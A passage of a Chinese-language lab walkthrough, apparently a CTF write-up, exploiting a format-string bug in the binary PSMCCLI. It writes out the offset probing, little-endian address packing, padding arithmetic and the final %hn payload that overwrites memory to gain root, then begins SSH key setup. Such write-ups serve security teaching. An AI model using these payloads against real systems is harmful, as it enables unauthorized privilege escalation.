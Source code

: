 可以看出，前面调整还没调过来，继续调整成功对齐...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJiczfUZfkT7WMxFpQ9J0IJ9RnaicBUGl8NQj5oV3ibSCPvuDkxdK9YLLrQ/640?wx_fmt=png)

```
/usr/local/bin/PSMCCLI AAAABBBBCC%124\$x%125\$x
```

这里我确认了 Args 值...124 和 125...

这边用 little-endian 编写，需要将 0xbfffff9e 注入为 0xff9e，然后注入 0xbfff...

0x804a01c with 0xff9e

0x804a01e with 0xbfff

漏洞利用，目标地址转换为 little endian...

```
$(printf "\x1c\xa0\x04\x08\x1e\xa0\x04\x08")
```

将其填充 2 个字节，对应即可

```
$(printf "\x1c\xa0\x04\x08\x1e\xa0\x04\x08")CC
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJ75MjT5FQOyHPjyicOdSCCAbiaS1jm6lMCRgqiaTBgmQ3JGXicd2HOjLtfw/640?wx_fmt=png)

```
/usr/local/bin/PSMCCLI $(printf "\x1c\xa0\x04\x08\x1e\xa0\x04\x08")CC%124\$n%125\$n
```

这边出现了分段错误，因为％n 将到目前为止已打印的字符数写入正在访问的内存中，上面的代码会将 11（0xb）写入高位和低位存储短字，是一个非法地址，所以报错...

这边要写入的第一个值是 0xff9e（十六进制到十进制转换，十进制为 65438），需要在 \ $ hn 之前打印 65438 字节以写入内存，但是漏洞利用程序已经包含 10 个字节（AAAABBBBCC 共 10 个），因此还需要 65428 个字节...

```
$(printf "\x1c\xa0\x04\x08\x1e\xa0\x04\x08")C%65429x%124\$hn
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJmQ0EpefEyt1o6U8Q3icYvXxMP5ibWNjj1ZzHxqOLgibaucZIR4xjyic0YA/640?wx_fmt=png)

这里我需要写 0xbfff，它是 49151，一个 2 字节无符号 int 的最大值是 65535，因为 65439 已经被打印了 97 将最大值，98 会溢出。然后还需要 49151（加 98 溢出），所以总读取为 0x1bfff-0xff9e =0xc061（49249）...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJOd5MephKqVFtxTAiaFoRjYPhQaDEDPbiccAicny32TSuzg1icEU2z9WoSg/640?wx_fmt=png)

```
/usr/local/bin/PSMCCLI $(printf "\x1c\xa0\x04\x08\x1e\xa0\x04\x08")CC%65428x%124\$hn%49249x%125\$hn
```

这边成功通过溢出提权... 这边尝试了 python 无法用.. 使用 ssh 密匙转换壳...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJib7VaQKu7ZJwDGymWCn5k3ibxt4360jo0nl8Tt06XXSk8X9b2aIYn9GQ/640?wx_fmt=png)

```
ssh-keygen -t rsa -b 2048
```
